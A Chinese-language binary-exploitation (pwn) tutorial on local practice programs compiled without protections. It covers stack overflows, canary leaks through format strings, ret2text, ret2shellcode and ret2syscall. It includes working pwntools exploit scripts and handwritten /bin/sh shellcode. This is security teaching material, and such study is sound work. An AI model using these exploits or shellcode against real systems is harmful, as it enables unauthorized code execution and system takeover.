# pwn二进制漏洞

## pwn基础

	

	

	

```
ebp存放函数栈的基地址，esp是指向栈的低地址部分，即栈头部的位置。
call汇编本质上分为两步骤，第一步把当前函数的要执行的下一条指令的内存地址压入栈中，然后跳转到另一个函数的入口。
enter汇编分为两步(call函数之后第一步必须执行的汇编),push ebp,mov ebp esp
leave汇编分为两步，mov esp ebp,pop ebp
ret汇编弹出栈顶的返回地址到 eip，跳转到调用者代码,等效于 pop eip。
注意:如果一个函数执行的时候执行另一个函数需要传参，则会先把传入的参数压栈，然后把当前函数的返回地址压栈保存，然后才会开辟新的栈空间给执行的另一个函数。
```

	

### 案例1

```
对这个简单的c语言进行反汇编的分析。
#include <stdio.h>

int test(int a,int b)
{
	int c = a + b;
	return c;
}

int main(int argc, char const *argv[])
{
	test(1,2);
}
```

```
将test.c文件编译成32位的可执行文件test,如果不指定-m32，默认是编译成64位的可执行文件。
gcc -m32 -o test test.c
```

```
disass main反汇编出来main函数的汇编代码
```

	

```
disass test反汇编出来test函数的汇编代码
```

	

```
给test函数入口地址设置断点，进行debug分析
b *0x080483f6
```

	

```
使用run开始调试，然后使用n进行单步下一步执行。
刚开始调试的时候，其实就可以发现main函数汇编的下一条指令地址被压入栈中，这样是为了方便执行完函数return回去。
```

	

```
执行这两步骤，先把原先main函数的的ebp压入栈中，然后更新ebp的位置，让其成为test函数的栈基地址。
```

	

```
第三部esp指针减去16，说明分配了16B的空间给到这个test函数。
```

	

```
中间两步骤是系统调用的汇编不用管，然后会把传入的参数1放入到寄存器edx中。
```

	

```
把栈中的参数2，放入寄存器eax中。
```

	

```
两数相加放入寄存器eax中。
```

	

```
并把寄存器的值存入到test函数的内存空间中。即c=a+b。
```

	

```
将test函数中的变量c，放入寄存器eax，可以用于return时返回这个结果。
最后就是leave和ret汇编，主要是把ebp和esp更新回原先main函数的调用栈的位置。
```

	

```
gdb还有一些操作必须掌握
delete可以删除所有的断点。
info b可以查看所有的断点信息。
```

## 保护概述和溢出实例

```
缓冲区溢出攻击原理，本质上就是修改栈上的返回地址，使其执行shellcode恶意代码。但是开启canary保护，函数开始执行会插入cookie信息，当返回需要验证cookie信息，不合法就会停止程序运行。一般来说攻击者覆盖返回地址也会覆盖掉cookie信息，从而导致验证不通过，阻止shellcode执行。
```

	

```
NX(DEP)原理是把数据所在内存页设置不可执行，从而使得程序溢出攻击，也不会执行恶意指令，而是抛异常。
ASLR会使得进程地址空间随机化，使得在这台计算机能运行的恶意代码，在其他计算机会执行不了。
```

	

	

	

	

	

### 溢出实例

```c
以下是一段read.c的代码,
#include<stdio.h>
void exploit() //获得一个shell。
{
    system("/bin/sh");
}
void func()
{
    char str[0x20];
    read(0, str, 0x50);//0表示标准输入，会写入50B的数据到str中，使得溢出。
}
int main()
{
    func();
    return 0;
}
```

```
gcc -no-pie -fno-stack-protector -z execstack -m32 -o read read.c
编译这个c文件，-no-pie使得编译的文件的代码地址固定，-fno-stack-protector禁用栈保护,-z execstack运行栈可执行，-m32生成32位的程序。
```

	

```
//查看read程序的.text段有哪些函数，分别可以找到main、exploit、func函数。
objdump -t -j .text read
```

	

```
接下来开始具体分析汇编，首先第一个push ebp先把上一层函数的ebp压入栈中，并更新了ebp的新位置，然后此时又压入了一个ebx，后面分别对esp进行sub操作，共分配了0x28，即40B的空间。那么只需要在这前44B随便填充一个值(包括ebp指针所指向的内存空间也要随便填充一个值)，44B之后就是return的返回地址(即ebp往下一个地址就是返回地址)，那么这部分可以填写exploit的内存地址，从而把返回地址覆盖成exploit的函数入口地址。
```

	

```
disass exploit,查看exploit的函数入口内存地址。
```

	

```python
于是可以编写poc.py来实现这个漏洞，来执行exploit函数获得shell。
from pwn import *
p = process("./read") //启动一个本地进程运行这个read二进制文件。
offset = 0x28 + 0x4 //计算缓冲区溢出偏移量
payload = b'a'*offset + p32(0x080491b6) //前44B填充a,后面p32把其转换为小端32位内存地址。
p.sendline(payload) //使用sendline发送这个payload.
p.interactive() //启动与目标程序的交互
```

```
总结：写入是从 esp 开始，往下覆盖到 ebp 和其他栈内容（如返回地址）。
```

## canary保护

```
本质上就是在调用一个函数后，在这个函数调用栈的空间存入一个canary值，如果这个canary值发生变化，那么在返回的上一层函数之前就会进行校验，如果和原先不相同，则会执行报错的汇编，否则会跳转到一个内存地址，来返回上一层函数。
```

	

```
接下来以这个canary.c文件来进行反汇编，来看有和没有canary保护的区别。
#include<stdio.h>
int main()
{
    char *name = "Roger";
    printf("My name is %s"); 
    return 0;
}
```

```
编译时启用堆栈保护，为所有函数插入保护代码，并给二进制文件设置777可执行权限。
gcc -no-pie -fstack-protector-all -m32 -o canary canary.c  
```

	

```
查看汇编，可以发现会将保护代码先放入ecx寄存器，在通过ecx寄存器放到调用函数的栈空间中，当调用完函数，会把这个保护代码从内存取出放到ece寄存器，进行值的比较，如果相同则返回上一层函数，否则就报错。
```

	

```
比如开始采用断点调试，发现执行完这一步汇编后，canary的cookie值存入到了ecx。
```

	

```
最后并把这个cookie值写入到这个函数的栈空间中。
```

	

```
由于是重新debug，所以这个cookie变化了。
也可以查看寄存器的内容。
p/x $ecx ,以十六进制的形式查看ecx寄存器的内容。
```

	

```
也可以查看内存中的保护cookie值的地址。
p $ebp-0xc
```

	

```
查看寄存器的标志位信息。
```

	

```
将246转化为二进制，其中的1对应到指定位置，就说明有指定的标志信息。
```

	

```
编译,不开启canary保护，注意还要去掉pie。
gcc -no-pie -fno-stack-protector -m32 -o canary canary.c   //关闭堆栈保护
```

	

```
此时会发现，函数栈空间并不会插入保护cookie值。
```

	

## printf函数漏洞概述及调试

	

	

```c
接下来通过cannary.c文件来解释这个漏洞
#include<stdio.h>
int main()
{
    char *name = "Roger";
    printf("My name is %s"); 
    return 0;
}
```

```
首先进行反汇编，在指定位置打断点调试。
```

	

```
首先执行这个箭头所指的汇编，会把需要打印数据的字符参数存入EDX寄存器。并把edx压入栈中。
```

	

```
此时printf中的第一个参数已经压入栈中，但实际上按照优先次序来说的话，第二个参数会先比第一个参数压入栈中。由于我们的代码并没有第二个参数，但是printf函数执行的过程中，会默认寻找第二个参数的内存地址，并取值放到占位符中。
```

	

```
所以我们把第二个参数，即esp-0x4的内存地址处设置字符串。将这个内存地址的内容设置成Roger字符串所在的内存地址。
set *(0xffffd4d4)=0x804a008
```

	

```
于是运行的结果可以被用户自定义。
```

	

### 案例1

```c
接下来用一个printf1.c文件来再次说明这个漏洞的危害。
#include<stdio.h>
int main()
{
	char str [0x10];
	read(0,str,0x20);
	printf("Roger %s."); 
	return 0;
}
```

```
将该c文件进行编译。
gcc -no-pie -fstack-protector-all -m32 -o printf1 printf1.c  
```

	

```
开始进行反汇编，打断点分析，从箭头的地方开始打断点分析。
```

	

```
首先先把read函数的第三个参数0x20压入栈中。
```

	

```
再把read函数的第二个参数，str的地址压入栈中。最后再把第一个参数0压入栈中。其中0表示把标准输入的内容读取到str字符数组中。
```

	

```
运行read函数的时候，标准输入中输入hsw.
```

	

```
注意此时标准输入hsw写入到数组中，并注意其中所在的内存地址。
```

	

```
收回16B的空间。
```

	

```
又申请了12B的栈空间。
```

	

```
由于printf只设置了一个参数，所以只把一个参数push到栈中。但此时很巧的是，之前read函数把hsw写入的内存位置，正好是printf默认取第二个参数值的位置，这样哪怕printf没有第二个参数，也会把hsw传入到占位符中。
```

	

```
于是输出结果，就意外的变成了Roger hsw，那如果用户可以在指定的内存地址利用输入内容，那就会出现漏洞。
```

	

## 格式字符串发生漏洞的条件

```c
接下来举个简单例子代码案例来说明这个漏洞发生的条件。
#include <stdio.h>
void main()
{
	printf("%s %d %s %x %x %x %3$s","Hello World!",233,"\n");

}	
```

```
先对c文件进行编译。
gcc -m32 -o printf2 printf2.c
```

	

```
运行这个文件，其实可以发现，由于后面四个参数没有对应的内容匹配，那么该函数会默认在栈中取值，而取出来值可能就是打印出来这些乱七八糟的字符。
```

	

```
使用汇编进行debug调试
gdb printf2
disass main
b *0x56556070
run
```

		

```
查看这个函数栈空间，根据运行的结果发现前三个参数是依次从esp往ebp方向依次取出。由于第4-6个参数都没有给定，于是该函数会从函数栈空间取出一些数据，即ffffd510、0、0,而第七个参数%3$s,是以字符串的形式打印第三个参数\n,即实现换行。
```

	

## 利用printf漏洞突破canary保护

```c
接下来通过这段代码的案例，来使用printf漏洞突破cannary保护。
#include<stdio.h>
void exploit()
{
    system("/bin/sh");
}
void func()
{
    char str[0x20];
    read(0, str, 0x50);
    printf(str); 
    read(0, str, 0x50);
}
int main()
{
    func();
    return 0;
}
```

```
先进行编译。
gcc -m32 -no-pie -fstack-protector-all -o printf2 printf2.c
```

	

```
给该文件设置777权限，进行汇编debug.
```

	

```
查看汇编代码得知，canary保护代码放入到ebp-0xc的内存地址下。
```

	

```
查看这个保护代码的内容。
p $ebp-0xc,查看保护代码存储的内存地址。
x $ebp-0xc,不仅可以查看保护代码的内存地址，也可以得知其中的内容。
```

	

```
查看栈中的空间内容，发现保护代码距离esp具有15行的距离。
```

	

```
于是在执行read函数会变得时候，输入%15$08x,当后续遇到printf就会解析这段字符，是指把第15个参数中的内容，以16进制的形式输出8个字节内容。那么就会把canary的保护代码打印出来。
```

	

```
继续调试，来执行printf查看第15个参数的内容，而15个参数即esp指针往下数15行。会发现打印的内容正好是canary的保护代码值。
```

	

```
为了后续写exp代码，所以获取exploit函数的入口地址，exploit函数作用就是获得shellcode.
入口地址:0x080491f6
```

	

```
当要执行第二个read函数，会发现read输入的内容是从eax处开始写。第二个箭头指向的是canary保护代码值，第三个是ebp指针，ebp指向的内容默认就是上一层函数的入口地址。
接下来分析汇编可以得知，第二次read函数输入的内容前8行(8*4B=32B)可以随便填充一个值，第九行是canary保护字段值不能改变，在第10-12行可以随便填充一个值，第13行就是我们可以恶意修改的入口地址，即ebp的下一行内存地址，那么只需改成exploit函数的入口地址，那么就会执行shellcode获得shell。
```

	

```python
编写poc.py如下
from pwn import *
import binascii
# 1. 启动目标程序
p = process("./printf2")  # 运行本地可执行文件 ./printf2
# 2. 利用 printf 漏洞泄露 Canary 值
p.sendline("%15$08x")  # 发送格式化字符串 %15$08x
# %15$08x: 访问第 15 个参数的值，以零填充的 8 位十六进制形式输出
# 通常，Canary 值位于栈上的第 15 个参数（具体取决于程序布局）。
canary = p.recv()[:8]  # 接收程序输出并提取前 8 个字符作为 Canary 的十六进制值，因为后面会带\n,要筛选掉
print(canary)  # 打印泄露的 Canary 值
# 3. 将泄露的 Canary 转换为小端字节序
canary = binascii.unhexlify(canary)  # 将十六进制字符串转换为字节
canary = canary[::-1]  # 反转字节顺序，转换为小端序
print(canary)  # 打印小端序格式的 Canary 值
# 4. 定义缓冲区偏移量和返回地址的偏移量
canary_offset = 8 * 4  # 缓冲区到 Canary 的偏移量（单位：字节）
ret_offset = 3 * 4  # Canary 到返回地址的偏移量（单位：字节）
# 5. 构造恶意 payload
exploit_address = p32(0x080491f6)  # 目标地址（小端格式），为漏洞利用后跳转的地址
payload = (
    canary_offset * b'a' +  # 填充缓冲区到 Canary 的偏移
    canary +  # 放置泄露的 Canary 值
    ret_offset * b'a' +  # 填充 Canary 到返回地址的偏移
    exploit_address  # 覆盖返回地址为目标地址
)
# 6. 发送 payload 并触发漏洞
p.sendline(payload)  # 将 payload 发送到目标程序
# 7. 进入交互模式
p.interactive()  # 与目标程序交互，通常是获得 shell 或验证利用成功
```

```
运行就得到getshell了。
python poc.py
```

		

## Rop-Ret2Text介绍及插件配置

	

	

	

### pwndbg快速定位漏洞溢出位置

```
重新对之前这个代码的溢出实例，进行解释，之前找溢出点是需要查看栈空间等等，但实际上有更快速的方式定位漏洞溢出。
#include<stdio.h>
void exploit() //获得一个shell。
{
    system("/bin/sh");
}
void func()
{
    char str[0x20];
    read(0, str, 0x50);//0表示标准输入，会写入50B的数据到str中，使得溢出。
}
int main()
{
    func();
    return 0;
}
```

```
首先gdb进行调试
使用cyclic 200生成杂乱无章的200个字符。
然后运行时把这200个字符输入，那么必然会出现报错。
```

	

```
根据报错的地址使用cyclic -l 0x6161616c定位溢出点。
```

	

```
会发现这样更快定位溢出点，比我们自己打开栈空间一个一个数要更快。
```

	

### peda插件安装和使用

```
1. 安装gdb-peda
git clone https://github.com/longld/peda.git ~/peda
```

​		

```
将原先的插件pwndbg注释掉，使用这个peda插件.
vim .gdbinit
```

	

```
使用gdb调试是gdb-peda说明安装插件并配置成功。
```

	

```
peda也有快速定位栈溢出的方法。
使用pattern create 200生成杂乱的200个字符
r运行时输入这200个字符。
```

	

```
于是可以使用pattern offset来快速定位栈溢出的地方
根据报错无效的内存地址来得到溢出点。
pattern offset 0x41414641
```

	

	

## Rop-Ret2Text实例详解

	

	

```
objdump是linux自带的。
```

	

### 案例演示

```
接下来以一个二进制文件来进行漏洞演示。
```

	

```
file ret2text
首先查看这个文件，发现是32位程序，并且是Intel类型编译的。
```

	

```
查看这个文件使用了哪些函数,发现有很多函数，比如main和secure等函数。
objdump -t ret2text
```

	

```
以Intel的形式展示全部的汇编代码。然后分析main函数的汇编代码，发现其中使用了gets函数，而gets函数输入数据是不受限制的，那么可以通过缓冲区溢出来覆盖返回地址成恶意函数的入口地址。
objdump -d -M intel ret2text
```

	

```
查找使用过system函数的地方。
objdump -d -M intel ret2text |grep system
```

	

```
虽然有调用system函数，但是需要知道这个system具体传入什么参数，执行了什么命令。于是通过内存地址0x08048641去查找。发现这个system函数又被secure函数调用，并且在调用之前，还将内存地址的内容传入到esp中，那么很可能是参数。
```

	

```
于是使用gdb去查看这个内存地址的内容。发现是参数/bin/sh，正好是shellcode的代码。
x/s 0x8048763
```

	

```
将这个传参的内存地址入口复制下来。
入口地址:0x0804863a
```

```
生成200个杂乱的字符，运行这个程序，并输入200个字符。
pattern create 200
```

	

```
通过报错的内存地址，即可确认栈空间的溢出的长度是112
pattern offset 0x41384141
```

	

```python
于是编写poc.py来验证来获得shell.
from pwn import *
p = process("./ret2text")
offset = 112
payload = offset * b'a' + p32(0x0804863a)
p.sendline(payload)
p.interactive()
```

	

## 使用gdb附加调试64位程序


```c
以这个c文件进行演示。
#include<stdio.h>
void exploit()
{
	system("/bin/sh");
}
void main()
{
    char buf[20];
    gets(buf); 
}
```

```
编译这个c文件。
gcc -no-pie -fno-stack-protector -z execstack -o test test.c
然后查看这个可执行文件的安全程度。会发现是64位的可执行文件，并且没有cannary保护，也没有随机变换地址。
checksec test
```

		

```
查看可执行文件的汇编代码。
objdump -d -M intel ./test
然后使用gdb调试这个程序，先创建200个字符，然后运行时输入，来使得溢出。
```

	

```
64位程序运行时会发现运行时栈空间溢出，会终止运行，所以无法直接得知报错的内存地址是哪个，但是会发现这个汇编其实是在ret被终止，而ret本身就会弹出ebp(那时的ebp是栈顶),所以说只需查看栈顶中的前四个字符内容AAOA
```

	

```
通过这四个字符确认溢出位置。
```

	

```
在得知exploit函数的入口地址。0x0000000000401156
0400537
```

	

```python
接下来即可写poc.py来验证获得shell了。
from pwn import *
#context(os='linux', arch='amd64', log_level='debug')
p = process("./test")

print("pid"+str(proc.pidof(p)))

offset = 40

payload = offset * b'a' + p64(0x401156)

pause()

p.sendline(payload)

p.interactive()
```

```
运行这个poc.py会暂停，需要回车才能继续运行,此时先别回车，先让gdb可以进行调试。
```

	

```
根据这个pid进行gdb的调试。
gdb -attach 108620
```

```
然后可以点击回车，让poc.py运行完，然后gdb一直单步调试，最终会调试到这个system命令，执行里面的参数获得shell.
```

	

## ROP-Ret2Shellcode-32位实例

```
ret2text的缺点在于需要在程序内部找system,如果没有system就无法getshell.
ret2shellcode的优势在于，如果本身程序没有system来getshell，那就自己写个shell到这个程序的某个内存空间中，然后溢出覆盖内存地址，让其执行这个shellcode.
```

	

	

	

```
主要解释手写shellcode的汇编是怎么写的。
首先三个push分别对应/bin///sh这个参数，然后把这个ebx存储第一个参数(/bin///sh)的地址。然后对ecx和edx做异或，本质上就是赋值为0，这是一种规范写法，不建议直接赋值为0，然后push 11将系统调用号放入栈中，再弹出放入eax寄存器。最后的0x80是固定写法。
pwntools可以自动生成shellcode，但是初学最好掌握手写shellcode的原理。
```

	

```
将0x680x732f2f2f0x6e69622f转化为ascii码进行解析查看，发现是倒序，由于是小端存储，所以需要倒序存放，这样后续从栈中取出来的参数就是正序/bin///sh.

这里可能有个疑惑为什么参数要三个斜杆///,这是因为确保后面的两个push不包含0,否则可能会因为00截断无法执行shellcode.
```

	

	

### 案例演示

```
接下来以一个ret2shellcode2二进制文件来进行演示漏洞。
首先检查保护水平如何
checksec ret2shellcode2
```

	

```
查找是否有system函数，发现并没有
objdump -d ret2shellcode2 | grep system
```

	

```
接下来从汇编代码分析二进制文件。
首先执行puts输出某个内容时，把内存地址0x8048660的内容传入到了栈中。
在执行gets输入内容的时候，是把esp+0x1c的内存地址中的内容取出，很明显这是用户输入内容的地方。然后把用输入的内容放到esp即栈空间中。
在执行strncpy时，先把第三个参数0x64(十进制是100)压入栈中，第二个参数即gets输入的内容传入栈中，第一个参数传入的是一个内存地址0x804a080，对于该函数第一个参数是目的地址，第二个参数是源字符串，第三个是复制的大小长度。
那么这里就有一个利用漏洞的思路，如果可以在gets使用栈溢出把main函数的返回地址覆盖成0x804a080，然后strncpy把输入的内容换成shellcode，那么main函数执行完就会返回到shellcode的函数去执行，从而获取到shell.
```

	

```
查看puts传入的参数，会发现输出的内容如下所示。
x/s 0x8048660
```

	

```
由于strncpy会把输入的内容复制到这个内存地址0x804a080，所以需要检查这个内存地址是否有可执行权限，先查看这个内存地址属于哪个段的，发现该内存地址属于bss段。
readelf -S ret2shellcode2
```

	

```
使用gdb调试，查看这个段是否有运行权限。但是我自己的电脑这个内存段是没有可执行权限，导致无法复现成功。
gdb ret2shellcode1
b main
run
vmmap
```

		

```
生成200个字符，然后输入时复制进去，使得溢出。
```

	

```
然后确认溢出偏移值是112.
```

	

```python
于是可以开始写poc.py验证漏洞

from pwn import *  # 导入 pwntools 库，专门用于漏洞利用
# 设置上下文信息，指定目标程序的架构和操作系统
context(arch="i386", os="linux")
# 启动目标程序 "./ret2shellcode2"
p = process("./ret2shellcode2")
# 生成 Shellcode，利用 pwntools 提供的 shellcraft 模块生成一个 `/bin/sh` 的 Shellcode
shellcode = asm(shellcraft.sh())
# 构造 Payload：
# 1. `ljust(112, b'A')` 填充到 112 字节（覆盖缓冲区到返回地址的距离）。
# 2. `p32(0x804a080)` 设置返回地址为 0x804a080，这个地址是写入 Shellcode 的位置。
payload = shellcode.ljust(112, b'A') + p32(0x804a080)
# 发送 Payload 到目标程序的输入
p.sendline(payload)
# 进入交互模式，获取程序交互界面（如 Shell）
p.interactive()
```

```python
除了使用pwntools自带的shellcode，也可以使用自己定义的shellcode

from pwn import *  # 导入 pwntools 库，专门用于漏洞利用
# 设置上下文信息，指定目标程序的架构和操作系统
context(arch="i386", os="linux")
# 启动目标程序 "./ret2shellcode2"
p = process("./ret2shellcode2")
# 生成自定义Shellcode，
shellcode = asm("""
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx,esp
xor ecx,ecx
xor edx,edx
push 11
pop eax
int 0x80
""")

# 构造 Payload：
# 1. `ljust(112, b'A')` 填充到 112 字节（覆盖缓冲区到返回地址的距离）。
# 2. `p32(0x804a080)` 设置返回地址为 0x804a080，这个地址是写入 Shellcode 的位置。
payload = shellcode.ljust(112, b'A') + p32(0x804a080)
# 发送 Payload 到目标程序的输入
p.sendline(payload)
# 进入交互模式，获取程序交互界面（如 Shell）
p.interactive()
```

	

## 手动制作shellcode并测试

```
准备写好shellcode的汇编代码
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx,esp
xor ecx,ecx
xor edx,edx
push 11
pop eax
int 0x80
```

	

```
使用 nasm 命令编译汇编代码（shellcode_32.asm）时，生成的是目标文件（.o 文件），这种文件包含了二进制机器指令以及其他元数据。
nasm -f elf32 -o shellcode_32.o shellcode_32.asm
```

	

```
使用GNU 链接器，用于将目标文件（.o 文件）链接为可执行文件。其中elf_i386是链接为一个 32位Linux可执行文件。
ld -m elf_i386 -o shellcode_32_exe shellcode_32.o
```

```
通过测试执行这个可执行文件，发现可以使用shellcode.
```

	

```
运行 xxd shellcode_32_exe 命令会将可执行文件 shellcode_32_exe 的内容以十六进制格式和对应的 ASCII 字符展示。会发现shellcode的核心部分由箭头所指向的位置。
xxd shellcode_32_exe
```

	

```
在可执行文件中提取纯Shellcode的内容。
objcopy -O binary shellcode_32_exe shellcode_32
```

	

```c
首先把这个c文件进行编译,确保编译的二进制文件拥有栈执行权限。
gcc -zexecstack -m32 -o shellcode_test shellcode_test.c 
 
#include <stdio.h>
void main()
{
	char*shellcode;//存shellcode
	read(0,shellcode,1000);//读取命令行至shellcode
	void(*run)() = shellcode;//定义一个函数指针指向shellcode
	run(); //执行shellcode
}
//gcc -zexecstack -m32 -o shellcode-test shellcode-test.c 
//32位就写-m32,64位不写
```

```python
接下来编写py文件，来测试这个shellcode。
from pwn import *
f = open("shellcode_32",'rb') #打开c编译好的二进制文件。
shellcode = f.read()
p = process("./shellcode_test")
p.sendline(shellcode) #传入提取的纯shellcode.
p.interactive()
```

```
最后运行这个py文件，测试发现shellcode没问题。
```

	

## ROP-Ret2Shellcode-64位实例

	

```
其中传入rdi的参数内容是hs//nib/
剩下的汇编其实不用特别需要理解，其中rax先变成0，然后加上0x3b，这个是用于表示系统调用号，rdi用于存入的/bin/sh,rsi和rdx异或为0即可
```

	

```c
接下来以这个c文件来演示Ret2shellcode-64的漏洞
#include<stdio.h>
char buf2[200];
int main()
{
	setvbuf(stdout,0,2,0);
	char buf[20];
	printf("what's your name: ");
	gets(buf);
	printf("leave message: ");
	gets(buf2);
	puts(buf2); 
	return 0;
}
```

```
首先编译这个c文件。并查看这个二进制的安全程度。
gcc -no-pie -fno-stack-protector -z execstack -o ret2shellcode1 ret2shellcode1.c
```

​		

```
反汇编，查看汇编代码中的buf2是在哪个内存地址中出现。
objdump -d -M intel ret2shellcode1 | grep buf2
```

	

```
根据buf2出现过的内存地址，进行打断点，然后查看使用vmmap查看0x404080是否有可执行权限。
```

	

```
由于环境问题，这里没有可执行权限，按理来说关闭了NX保护，必然是可执行权限。
```

	

```
然后创建300个字符，然后输入到gets使得溢出，来判断main函数的溢出点在哪里。
```

	

```
根据栈帧也很清楚，由于输入的值过大会导致溢出，那么对于64位程序会在ret汇编处停止。那么此时栈顶的内容就是上一层函数的ebp，通过该地址即可得到offset偏移是40
```

	

	

```python
于是即可写poc.py验证漏洞。
from pwn import *
# 导入 pwntools 库，用于编写漏洞利用脚本

context(arch="amd64", os="Linux")
# 设置上下文信息，指定目标程序的架构为 x86_64 (64 位)，操作系统为 Linux

# context.log_level="debug"
# （可选）取消注释后可以输出调试信息，便于分析程序交互和调试过程

e = ELF("./ret2shellcode1")
# 加载目标程序的 ELF 文件，便于提取符号信息（如函数地址、全局变量地址）

buf2 = e.symbols["buf2"]
# 获取目标程序中名为 `buf2` 的数组内存地址，通常是用于存放数据的缓冲区

p = process("./ret2shellcode1")
# 启动目标程序 `./ret2shellcode1` 并返回进程对象 `p`，用于与程序交互

shellcode = asm(shellcraft.sh())
# 使用 pwntools 的 `shellcraft` 模块生成一个 `/bin/sh` Shellcode
# 这个 Shellcode 会在程序中被注入并执行，用于打开一个交互式 Shell

offset = 40
# 设置缓冲区到返回地址的偏移量（通过调试或分析计算得出）

payload1 = offset * b'a' + p64(buf2)
# 构造第一个 Payload：
# - `offset * b'a'`：填充 40 个字符 'a'，覆盖缓冲区到返回地址的区域
# - `p64(buf2)`：覆盖返回地址为 `buf2` 的地址，确保程序返回后跳转到 `buf2`

p.sendline(payload1)
# 发送第一个 Payload，将返回地址覆盖为缓冲区 `buf2` 的地址

payload2 = shellcode.ljust(200, b'A')
# 构造第二个 Payload：
# - 将 `shellcode` 左对齐，用字符 'A' 填充到 200 字节
# - 将 Shellcode 写入缓冲区 `buf2` 中，供后续程序跳转到该缓冲区执行

p.sendline(payload2)
# 发送第二个 Payload，将 Shellcode 写入 `buf2` 的内存区域

p.interactive()
# 进入交互模式，与目标程序交互
# 如果漏洞利用成功，会打开一个交互式 Shell，允许执行任意命令
```

```
运行这个poc.py，即可获得shell。
python poc.py
```

	

## 利用ROP-Ret2Syscall突破NX保护

	

	

```
既然有NX保护，自己自定义的shellcode往往没有可执行权限，那么可以使用Ret2Syscall的策略，拼凑这些汇编来得到一个shellcode,因为这些汇编肯定都是可执行的。
分析:首先找到eax，然后想办法构造0xb在栈顶的情况，于是就会把调用号0xb放到eax,同理就能把ebx、ecx、edx分别放置0、0、/bin/sh的内存地址。然后想办法覆盖返回地址，引导去执行0x80的位置，即可构造shell。
```


```
首先检查这个二进制文件是否开启NX保护。
checksec ret2syscall
```

	

```
很明显在执行push之前，会把参数通过esp压入栈中,查看这部分内存地址的内容。
x/s 0x80be410
x/s 0x80be43b
而且也发现了gets函数，于是可以判断栈溢出的位置。
```

	

```
判断溢出点的值是112
cyclic 200
run
cyclic -l
```

	

	

```
